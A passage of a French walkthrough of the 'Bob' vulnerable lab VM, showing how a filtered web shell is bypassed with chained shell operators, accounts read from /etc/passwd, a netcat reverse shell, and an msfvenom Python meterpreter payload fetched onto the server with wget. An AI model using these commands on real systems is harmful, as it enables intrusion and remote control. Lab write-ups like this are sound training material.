 Le but du jeu consiste à exécuter des commandes auxquelles nous n'avons normalement pas droit. Généralement, l'exploitation de cette vulnérabilité est réalisée à l'aide d'opérateurs logiques ([_control operators_](https://www.w3resource.com/linux-system-administration/control-operators.php) en anglais) : en effet, il est possible d'enchaîner plusieurs commandes à la suite, et la vérification semble n'être réalisée que sur le premier mot / que sur la première commande fournie. Ainsi, si le point-virgule est interdit, d'autres opérateurs logiques peuvent être utilisés afin de contourner les restrictions du Web-Shell. En outre, le fichier /etc/passwd nous informe que chaque membre du département informatique possède un compte Unix : root, c0rruptedb1t, bob, jc, seb, elliot.

À présent, il s'agit d'obtenir un shell sur le serveur !

## Mise en place d'un reverse shell et accès au serveur Bob

Le reverse shell avec netcat a particulièrement bien fonctionné la première fois.

```nc -lvp 12345``` sur notre machine, ```ls|nc -e /bin/bash 192.168.56.101 12345``` dans le webshell.

```console
root@blinils:~/VM_Bob# nc -lvp 12345
listening on [any] 12345 ...
192.168.56.103: inverse host lookup failed: Unknown host
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.103] 45822

id
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)
```

Cela dit, autant avoir un [meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) sous la main. Le principe est le suivant : un [_reverse shell_](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) en Python va être créé et déposé sur le serveur Bob. Ce bout de code va, dans un premier temps, créer une connexion sur le port 4444 entre le serveur du lycée (192.168.56.103) et notre propre machine (192.168.56.101), avant d'envoyer un meterpreter à travers la connexion créée, qui sera exécuté sur le serveur distant.

```console
root@blinils:~# msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 -o shell.py
No platform was selected, choosing Msf::Module::Platform::Python from the payload
No Arch selected, selecting Arch: python from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 554 bytes
Saved as: shell.py

root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

De retour sur le Web-Shell, le reverse-shell Python est déposé sur le serveur via [wget](https://www.gnu.org/software/wget/).

```console
Command : id && wget http://192.168.56.101:8000/shell.py -O /tmp/shell.py
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users)

Command : id && ls /tmp
uid=33(www-data) gid=33(www-data) groups=33(www-data),100(users) shell.py
```
